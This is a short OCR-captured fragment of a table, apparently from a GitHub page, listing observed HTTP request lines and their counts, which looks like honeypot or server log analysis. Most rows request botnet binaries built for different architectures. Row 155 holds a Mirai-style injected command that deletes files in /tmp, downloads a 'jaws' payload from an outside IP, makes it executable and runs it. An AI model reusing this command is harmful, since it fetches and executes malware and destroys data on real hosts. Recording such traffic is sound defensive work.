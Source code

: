 | 149 |                     2 | GET /sparc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 150 |                     2 | GET /main_arm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 151 |                     2 | GET /gif HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 152 |                     2 | GET /main_x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 153 |                     2 | GET /main_mpsl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 154 |                     2 | GET /yakuza.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 155 |                     2 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |